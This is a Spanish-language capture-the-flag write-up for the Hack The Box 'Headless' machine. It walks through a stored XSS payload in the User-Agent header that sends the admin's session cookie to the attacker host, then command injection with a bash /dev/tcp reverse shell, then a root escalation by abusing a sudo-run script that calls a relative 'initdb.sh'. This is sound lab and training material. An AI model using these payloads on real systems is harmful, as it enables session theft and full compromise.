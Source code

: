 # Headless

![Pasted image 20240411152135](https://github.com/JoseVazquez101/Writteups/assets/111292579/93429699-26bf-4fc2-882c-4b6241365fd1)

***
- Source: https://app.hackthebox.com/machines/Headless
- OS: ``Linux``.
- Dificultad: ``Easy``.
- IP: ``10.10.11.8``.
- Temas: `XSS Reflected`, `Cookie Hijacking`, `Linux PrivEsc`.
***
#### Recon:

- Primero hacemos un escaneo de puertos con `nmap`, vemos dos puertos abiertos:

~~~bash
❯ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.11.8
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-11 17:22 EDT
NSE: Loaded 46 scripts for scanning.
Initiating SYN Stealth Scan at 17:22
Scanning 10.10.11.8 [65535 ports]
Discovered open port 22/tcp on 10.10.11.8
Discovered open port 5000/tcp on 10.10.11.8
Completed SYN Stealth Scan at 17:23, 35.68s elapsed (65535 total ports)
Initiating Service scan at 17:23
Scanning 2 services on 10.10.11.8
Completed Service scan at 17:25, 132.23s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.8.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 17:25
Completed NSE at 17:25, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 17:25
Stats: 0:02:51 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE: Active NSE Script Threads: 1 (1 waiting)
NSE Timing: About 75.00% done; ETC: 17:25 (0:00:01 remaining)
Completed NSE at 17:25, 11.04s elapsed
Nmap scan report for 10.10.11.8
Host is up, received user-set (5.1s latency).
Scanned at 2024-04-11 17:22:25 EDT for 179s
Not shown: 59447 closed tcp ports (reset), 6086 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?   syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
~~~

- La página web en el puerto 5000 no parece muy prometedora, ya que parece estar aún bajo construcción:

![Pasted image 20240411153145](https://github.com/JoseVazquez101/Writteups/assets/111292579/7a88bfb2-2519-41a8-bccf-ac4d8876988d)

- Con una enumeración de directorios encontré dos, uno llamado `dashboard` al cual no tenemos acceso y otro llamado `support`.
- Si presionamos el botón nos redirigirá a un apartado para contactarnos con el soporte.
- Intenté enviar el siguiente payload en el apartado de `Message` y recibí un mensaje bastante curioso:

~~~html
<script>alert("XSS");</script>
~~~

![Pasted image 20240411153434](https://github.com/JoseVazquez101/Writteups/assets/111292579/ed583b76-ae88-4af3-bd2c-7e7131e54448)

- Por la respuesta del mensaje podemos deducir que esto le llega al administrador directamente, por lo que podemos intentar robar su cookie de sesión.
- Para esto, me creé un archivo llamado `rubberCookie.js`, el cual se encargará de obtener la cookie y enviármela en un parámetro `GET`, aplicando de cierta manera una XSS reflejada:

~~~bash
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.16.50/?cookie=' + document.cookie);
request.send();
~~~

- El payload que enviaremos será este:

~~~js
<script src='http://10.10.16.50/rubberCookie.js'></script>
~~~

- solo debemos insertarlo en el `User-Agent`, de la siguiente manera:

~~~bash
POST /support HTTP/1.1

Host: 10.10.11.8:5000
User-Agent: <script src='http://10.10.16.50/rubberCookie.js'></script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=a&lname=a&email=a%40a.com&phone=3333&message=xd;
~~~

- Ahora solo deberíamos ponernos en escucha con un servidor de Python, primer deberíamos ver como el servidor obtiene nuestro archivo `rubberCookie.js` e inmediatamente lo interpreta:

~~~bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [11/Apr/2024 18:53:04] "GET /rubberCookie.js HTTP/1.1" 200 -
10.10.11.8 - - [11/Apr/2024 18:53:06] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 --
~~~

***

#### Explotación:

- Muy bien, con esta cookie ya tenemos acceso de administrador en el directorio de `dashboard`:

![Pasted image 20240411161913](https://github.com/JoseVazquez101/Writteups/assets/111292579/60ced685-34a1-4343-933d-febb3740c33e)

- Si interceptamos la petición podemos ver que se manda data bastante sencilla.
- Estaba probando tonterías y concatené un comando, esto funcionó xd:

![Pasted image 20240411162511](https://github.com/JoseVazquez101/Writteups/assets/111292579/0da12c93-1fce-410d-bd49-907e88623f43)

- Bastaría con mandarnos una revshell:

~~~bash
bash -c 'sh -i >& /dev/tcp/10.10.16.50/4444 0>&1'
~~~

- Encodeamos esta en URL y la mandamos concatenada con `;` a un lado del campo `data`.
- Si nos ponemos en escucha, deberíamos ganar acceso:

~~~bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.50] from (UNKNOWN) [10.10.11.8] 56958
bash: cannot set terminal process group (1354): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ 
~~~

- Hacemos un tratamiento de TTY:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***
#### PrivEsc:

- Vemos que podemos ejecutar un recurso `syscheck` como root:

~~~bash
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
~~~

- Analizando un poco el recurso podemos ver algunas cosas:

~~~bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
~~~

- Utiliza pgrep para verificar si el proceso initdb.sh está en ejecución.
- Si el proceso no se encuentra en ejecución, muestra un mensaje indicando que el servicio de base de datos no está en ejecución y luego ejecuta initdb.sh.
- Si el proceso se encuentra en ejecución, muestra un mensaje indicando que el servicio de base de datos está en ejecución.
- Lo ejecuté varias veces y siempre me marcaba que estaba deshabilitado, así que no tenemos que matar el proceso, cosas de CTF xd.
- Ahora bien, debemos cambiar el contenido de este script por una instrucción para asignar SUID al binario de bash:

~~~bash
dvir@headless:~/app$ echo '#!/bin/bash' > initdb.sh && echo "chmod u+s /bin/bash" >> initdb.sh
dvir@headless:~/app$ cat initdb.sh
#!/bin/bash
chmod u+s /bin/bash
~~~

- Ahora, ejecutamos el script y nos ejecutamos una bash privilegiada:

~~~bash
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.05, 0.01, 0.00
Database service is not running. Starting it...
dvir@headless:~/app$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
dvir@headless:~/app$ /bin/bash -p
bash-5.2# whoami
root
~~~

